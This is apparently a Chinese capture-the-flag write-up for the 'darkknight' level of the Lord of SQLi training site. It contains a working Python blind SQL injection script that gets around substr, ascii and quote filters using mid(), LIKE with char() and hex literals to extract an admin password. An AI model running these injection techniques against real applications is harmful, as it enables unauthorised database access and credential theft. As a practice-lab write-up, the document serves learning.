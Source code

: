 继续是需要破解密码，这次还限制了不能使用substr、ascii和单引号。初步的想法如下：

- substr可以用mid代替
- ascii没得代替，想到可以改成mid(pw,{n},1) like char({code})
- 避免出现单引号

```python
import requests

url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
headers = {'Host': 'los.rubiya.kr',
'Connection': 'close',
'Pagma': 'no-cache',
'Cache-Control': 'no-cache',
'sec-ch-ua-platform': "Windows",
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36'}
cookies={'PHPSESSID':'nc4ldg9qv2m60ddunromird6dk'}
# 确定密码长度
for length in range(4,20):
    params = {'no':f"0 || length(pw) like {length}-- "}
    response = requests.get(url, cookies=cookies, params=params)
    if(response.text.find("Hello admin")!=-1):
        print(f"length: {length}")
        break
#依次确定每个字符
pw = ""
for n in range (1,length+1):
    for code in range(48,123):
        params = {'no':f"0 || mid(pw,{n},1) like char({code})-- "}
        response = requests.get(url, cookies=cookies, params=params)
        print(params)
        if(response.text.find("Hello admin")!=-1):
            pw+=chr(code)
            print(f"pw: {pw}")
            break

```

得到的结果为`pw: 0B70EA1`，是的，很遗憾，第八个字符没有识别出来

一开始不理解为什么，就在burpsuite上面试了下暴力破解`/?no=0 || mid(pw,8,1) like char([48到123的数字])`，验证了一下果然是不行，然后改成`mid(pw,8)`发现找到了是f或者F，这才恍然大悟，因为guest的pw的第八位也刚好是f，所以之前用mid(pw,8,1)找到的就是索引在前面的guest，而guest的pw不止8位，所以设为mid(pw,8)刚好能得到admin，还挺巧的！

另外，like和=不一样，后面可以跟正则表达式，所以可以发现设为char(95)，每一个都有返回值，这是因为char(95)是下划线，表示通配符。而且like大小写不敏感！所以之前得到的pw全部是大写数字！

解决方法：

- 首先，为了避免得到guest的结果，增加 id like 0x61646d696e 的判断条件
- 大小写的问题没有想到很好的解决思路，只能换个方法
- ORD可以用于替换ascii

最后得到密码为`0b70ea1f`

